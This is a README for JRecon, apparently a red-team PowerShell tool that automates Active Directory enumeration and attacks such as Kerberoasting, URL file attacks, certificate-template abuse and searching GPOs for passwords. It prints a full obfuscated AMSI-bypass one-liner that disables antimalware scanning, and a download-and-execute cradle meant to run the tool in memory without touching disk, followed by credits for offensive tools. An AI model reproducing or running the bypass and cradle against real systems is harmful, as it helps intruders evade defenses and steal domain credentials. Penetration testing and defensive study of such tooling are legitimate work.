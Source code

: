 # JRecon
### A tool to automate Active Directory Enumeration
I've been working on this tool to automate a good part of the initial AD enumeration phase.

JRecon is not perfect, but it does it's job for me.

### What can JRecon do for you ?

JRecon will initially ask you if you want to download tools like Nessus, WinShareEnum, AdvIPScanner, HFS, VirtualBox, and Kali OS

It will then ask you the following:

Do you want to run the initial Domain Enumeration ?

Do you want to run BloodHound Collection ?

Do you want to download and run PingCastle ?

Do you want to enumerate Readable Shares ?

Do you want to use PingCastle to enumerate shares ?

Do you want to enumerate Writable Shares ?

Do you want to run a URL File Attack ?

Do you want to run a Kerberoast (and ASREPRoast) attack ?

Do you want to check for presence of Kerb Tickets in your local machine ?

Do you want to check for Misconfigured Certificate Templates ?

Do you want to enumerate for Vulnerable GPOs ?

Do you want to enumerate LDAP Signing ?

Do you want to check for Exploitable Systems ?

Do you want to search for Passwords in GPO ?

Do you want to search for Passwords in SYSVOL/Netlogon ?

### How to run ?

First bypass AMSI (example below)

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Set a variable to download your licensed version of PingCastle

(If you skip this step PingCastle Free Edition will be downloaded - Not for commercial use)

```
$jpingdownload = "<URL>"
```

You can set the variable "$jYesToAll" to "All" (before running the tool) to make it run without asking questions

This feature is probably best to use if you know the tool already, and you know it won't go out of scope

```
$jYesToAll = "All"
```

Finally, invoke and run the tool on memory (don't make it touch disk)

```
iex(new-object net.webclient).downloadstring('')
```

## JRecon is a collection of other scripts and tools

### Which tools are included?


**Rubeus**

Rubeus is a C# toolset for raw Kerberos interaction and abuses.

@Credit to: https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/
 

**Grouper3**

Find vulnerabilities in AD Group Policy, but do it better than Grouper2 did.

@Credit to: https://github.com/Group3r/Group3r
 

**Certify**

Active Directory certificate abuse. 

@Credit to: https://github.com/GhostPack/Certify


**LdapSignCheck**

C# project to check LDAP signing.

@Credit to: https://github.com/cube0x0/LdapSignCheck


**PingCastle** (Free Edition - **Not for commercial use**)

Get Active Directory Security at 80% in 20% of the time

@Credit to: https://github.com/vletoux/pingcastle


**SharpHound**

C# Data Collector for the BloodHound Project

@Credit to: https://github.com/BloodHoundAD/SharpHound


**ADRecon**

ADRecon is a tool which gathers information about the Active Directory

@Credit to: https://github.com/sense-of-security/ADRecon


**Invoke-Kerberoast**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1


**PowerView**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1


**Invoke-ShareFinder**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/functions/Invoke-ShareFinder.ps1


**AmsiScanBuffer bypass**

Author: Rasta Mouse (@_RastaMouse)

@Credit to: https://twitter.com/_RastaMouse


**Get-ExploitableSystems**

Author: Scott Sutherland (@_nullbind)

@Credit to: https://github.com/nullbind/Powershellery/blob/master/Stable-ish/ADS/Get-ExploitableSystems.psm1


**Get-GPPPassword**

Author: Chris Campbell (@obscuresec)

@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
